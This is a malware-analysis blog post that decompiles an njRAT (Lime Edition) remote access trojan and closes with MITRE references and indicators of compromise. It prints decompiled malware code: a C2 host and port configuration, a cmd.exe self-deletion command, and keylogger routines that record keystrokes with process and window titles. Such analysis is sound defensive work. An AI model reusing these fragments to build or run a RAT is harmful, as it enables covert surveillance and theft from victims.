

njRAT (aka Bladabindi, Njw0rm, LV) is a Remote Access Trojan (RAT) built on the .NET framework and targetted for Windows machines. It started appearing in 2012 and has recently become trending on the any.run trend page after RedLine Stealer. Links to the articles used are in the References section.
Overview
As you can probably tell from its name, njRAT is indeed a RAT which allows an attacker to gain full remote access to a victim’s machine. Apparently it has several “editions” (danger, golden, green, lime):
 Figure 1: njRAT editions
And perhaps even more editions/versions as it is still being used to this day.
Distribution
njRAT is often dropped as an email attachement. Some versions of this trojan are able to spread through external hard drives by copying themselves on to the connected drives.
Decompilation & Behavior
I decided to load up an njRAT (Lime Edition) sample in ILSpy inside an isolated Win10 VM. Luckily the njRAT sample I was using was very not obfuscated which made the reversing part much easier.
There were quite a few strings that looked really suspicious especially since they were related to gathering information from the infected machine:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
get_Name
get_OSFullName
get_FullName
get_UserName
get_ProcessName
get_Jpeg
get_CapsLock
SearchForCam
CopyFromScreen
get_PrimaryScreen
GetVolumeInformation
get_CtrlKeyDown
get_ShiftKeyDown
Keylogger
DeleteValueFromRegistry
GetValueFromRegistry
SaveValueOnRegistery
I found part of a cmd command in the UserString Heap section:
1
cmd.exe /C Y /N /D Y /T1 & Del "
and also the website: musicnote.soundcast.me.
What’s also interesting is that avicap32.dll is used. Apparently this dll would normally be used to capture videos from camera through Windows API.
I decompiled two files Lime.Program.cs and Lime.Keylogger.cs which I will go through. I’ll start with Lime.Program.cs because it contains the entry point (main function) to the malware.
Lime.Program.cs findings
Global Variables
For starters, we find interesting static global variables in this program:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
public static string host = "musicnote.soundcast.me";
public static string port = "91";
public static string registryName = "88169db1610442f489";
public static string splitter = "@!#&^%$";
public static string victimName = "SEVYWE9FUlJS";
public static string version = "0.7NC";
public static Mutex stubMutex = null;
public static FileInfo currentAssemblyFileInfo = new FileInfo(Application.ExecutablePath);
public static Keylogger keylogger = null;
public static bool isConnected = false;
public static TcpClient tcpSocket = null;
private static MemoryStream memoryStream = new MemoryStream();
private static byte[] bytesArray = new byte[5121];
private static string lastCapturedImage = "";
public static object currentPlugin = null;
[CompilerGenerated]
private static ParameterizedThreadStart _003C_003E9__CachedAnonymousMethodDelegate1;
We have information related to the host domain, the port number, the registry name, the victim name, and objects such as Keylogger, TcpClient, Mutex, etc.
Entry Point
The main function calls on Start() which behaves as follows:
- Creates a registry entry
- Creates two threads: First thread calls on
Receivewhile the second thread calls on the keylogger functionkeylogger.WRKwhich starts logging the keystrokes - Sends the foreground window title to the C2
Cleanup
This njRAT sample actually has an unistall function that removes itself from the victim’s machine.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
public static void Uninstall()
{
try
{
Registry.CurrentUser.OpenSubKey("Software", writable: true).DeleteSubKeyTree(registryName);
}
catch{}
try
{
Interaction.Shell("cmd.exe /C Y /N /D Y /T 1 & Del \"" + currentAssemblyFileInfo.FullName + "\"", (AppWinStyle)0, false, -1);
}
catch{}
try
{
stubMutex.Close();
}
catch{}
Environment.Exit(0);
}
Lime.Keylogger.cs
The keylogger code is fairly simple:
- The characters logged are encoded into unicode (I guess to support different keyboard languages).
- It checks if caps lock and shift key are active at the same time (interesting but kind of expected).
- Has a typo
[TAP]instead of[TAB](just funny)
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
private string Fix(Keys k)
{
bool flag = keyboard.get_ShiftKeyDown();
if (keyboard.get_CapsLock())
{
// caps lock nullifies the shift key
flag = ((!flag) ? true : false);
}
// <-- trimmed -->
switch (k)
{
case Keys.Return:
break;
case Keys.Tab:
return "[TAP]\r\n";
default:
if (flag)
{
return VKCodeToUnicode((uint)k).ToUpper();
}
return VKCodeToUnicode((uint)k);
}
- Logs the keys with the date, the process name and the process title
1
Logs += "\r\n\u0001" + DateAndTime.get_Now().ToString("yy/MM/dd ") + processById.ProcessName + " " + processById.MainWindowTitle + "\u0001\r\n";
Conclusion & MITRE ATT&CK Matrix
Since njRAT has been out for almost over a decade now, it is usually spotted by Windows Defender and other AVs. The fact that it is still being used out there is because it is being constantly updated to evade detection. Furthermore, it is also possible to detect the malware by monitoring network traffic as it tries to send user info to the C2 server.
There exists a well documented entry for njRAT on the MITRE ATT&CK website which you can find in the links below:
1
2
https://attack.mitre.org/software/S0385/
https://mitre-attack.github.io/attack-navigator//#layerURL=https%3A%2F%2Fattack.mitre.org%2Fsoftware%2FS0385%2FS0385-enterprise-layer.json
IOCs
Hashes:
- 76B5F9AA537F6D48961C685FF3E10C6B754218198ED2700CF256FCC64F1ADF9C
- AED8D380683187C2DABB790C84AB0FEC48F06D0849E23645520AC62EF89569E2
- 2b2b971a07eb7459a7899342dc113638d8ec5caf364bbfbfd434191f7d889d8c
- 3623db8890450965c2f81be1e1035d62ddb6714fa811788198fe3f4f91d47a4a
- f4a05645f2b4968db97ae260b8bdf441b114c9b7c50d06a931e162bdbc5a38f0
- 0e97651fb888abd6b54b84f8c45b740e5e060091ca9035d507d49518e29b246b
- db0dda1d32c52f3e4b2dafb4f815a0791b2336f2212c6bc5c3e9ae4ace3d934d
- bbb446074a8bc7bfd37af136e9d7b0f7508ce21b21e371a91afb55881fa689f0
- e47c0b614d0c4f9614a176a83c80b760e495fd8d197b7adb613951e89adb47d0
- 72a2e61f62c90994278d4d356156a04b85f00eb5745c6e231cb0a36045d8f370
- 367f1670b9e3eefb9c13cc5886b85b495a88c218cdb1d7b953073c396a85532b
- 1ccc4e0fdb2e471a5c8e36d4cfae746d325b25116ae86eae817683aba141d7ef
- 341d91df0e2f9c5a83b38991eacc78730324a0a6b5467d8dcfe333628f65a1ab
- a9021056e13fa4900943cab8c13718e9b82a55c6605624acc89539d5f7446838
- 77b23820d1202a35dc4552f68a54c401cf49aa347e9fc0233e51fdfe433b8348
- 2537f94e1c1b632bfee7ca9e7177ad9f25fedee9d39b26f85faa67eae237d13d
- c09779db8d24ec638dac307df49e7d1819433b406731fe501b65eecd560d033b
- e7d784c671c8f62c542fdbe2f87a27983922a05f508a72855ad53bd249b261e9
- b3f5e748c31dd8024183b04250c42f384fb2759ab41a483b5812e85e8728ebc3
- 34c716c30b7569beb2fa617b2ab0395d4861428250a3b14e03ada22e831d1144
- a1c54946f80c7fa92d1b8ae08aca08808e9564dda6c2d38372389491d9f6d69f
- 8f672d868bc0b42c368a067f7bd31e7cc91c70b8986720edacdaa5c0256d2203
IP addresses:
- 186.169.54.67
- 181.141.0.235
- 46.246.86.11
- 194.5.98.12
- 91.109.178.6
- 104.22.48.74
- 80.241.222.33
- 3.142.167.54
- 91.246.115.86
- 192.169.69.25
- 3.19.130.43
- 37.252.7.150
- 193.161.193.99
- 82.202.167.58
- 3.141.177.1
- 164.68.120.78
- 3.131.207.170
- 3.22.30.40
- 3.17.7.232
- 3.14.182.203
Domains:
- jimdo-dolphin-static-assets-prod.freetls.fastly.net
- wins10.duckdns.org
- majul.com
- hjgjkghkjgfu.duckdns.org
- wrytrioag.duckdns.org
- bngeyur.duckdns.org
- fgfdshrt.duckdns.org
- reald27.duckdns.org
- m3z0f.ddns.net
- mnzhvu5b5dramvakbcujh36aymg.anondns.net
- lorixo666.sytes.net
- leenux.freemyip.com
- milla.publicvm.com
- 192-168-100-240.otmn.direct.quickconnect.to
- 192-168-100-240.otmn.direct.quickconnect.to
- static.leadpages.net
- visitor.reactful.com
- njxyro.ddns.net
- chidonsky.linkpc.net
- bobby123.ddns.net
References
- https://blogs.vmware.com/security/2019/12/threat-analysis-unit-tau-threat-intelligence-notification-njrat.html
- https://getskout.com/cybersecurity-threat-advisory-0001-22-continued-log4j-scanning-activity/
- https://blogs.blackberry.com/en/2021/08/threat-thursday-dont-let-njrat-take-your-cheddar
- https://www.bleepingcomputer.com/news/security/youtube-bitcoin-scams-pushing-the-njrat-backdoor-infostealer/
- https://blog.talosintelligence.com/2021/08/rat-campaign-targets-latin-america.html
- https://www.proofpoint.com/us/threat-reference/remote-access-trojan
- https://attack.mitre.org/software/S0385/
- https://any.run/malware-trends/njrat
- https://www.joesandbox.com/analysis/250899/0/lighthtml
- https://www.threatminer.org/_reports/2013/fta-1009—njrat-uncovered-1.pdf